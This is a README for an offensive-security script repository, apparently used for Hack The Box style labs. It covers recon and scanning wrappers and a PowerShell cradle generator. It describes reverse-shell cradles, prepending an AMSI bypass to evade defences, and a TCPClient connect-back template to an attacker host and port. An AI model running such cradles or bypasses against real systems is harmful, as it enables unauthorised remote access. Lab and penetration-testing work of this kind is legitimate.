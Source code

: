 # scripts

This repository contains a collection of scripts I use regularly for offensive security-related tasks.

## Install

```bash
# Install dependencies (kali only)
sudo apt install python3-impacket python3-libtmux python3-requests python3-urllib3 python3-watchdog

# Clone repo
git clone https://github.com/Mojo8898/scripts.git '~/scripts'

# Make nmap wrapper script executable
chmod +x ~/scripts/scan_machine.py
```

## Example Usage

### recon_setup.py

```bash
# Just configure working environment
python3 ~/scripts/recon_setup/recon_setup.py -i 10.10.10.10 testing ~/htb/competitive_Mojo098.ovpn

# Configure working environment and launch automated tasks
python3 ~/scripts/recon_setup/recon_setup.py -i 10.10.10.10 testing ~/htb/competitive_Mojo098.ovpn -a -u bob -p 'Password123!'
```

### scan_machine.py

```bash
python3 ~/scripts/scan_machine.py 10.10.10.10
```

### scan_targets.py

```bash
python3 ~/scripts/scan_targets.py external_hosts.txt
```

### cradle_gen.py

```bash
python3 ~/scripts/cradle_gen.py 10.10.10.10 9001 -l
```

**Note:**
- To include an AMSI bypass with the Powercat cradle, create a file named amsi_bypass.txt in this project’s root directory. This file should contain the AMSI bypass code that will be prepended to the generated cradle.
- To include a raw socket PowerShell cradle, create a file named raw_socket.txt in this project’s root directory. Within this file, define the connection using Python’s string formatting placeholders for lhost and lport. For example:

```
System.Net.Sockets.TCPClient('{lhost}',{lport})
```
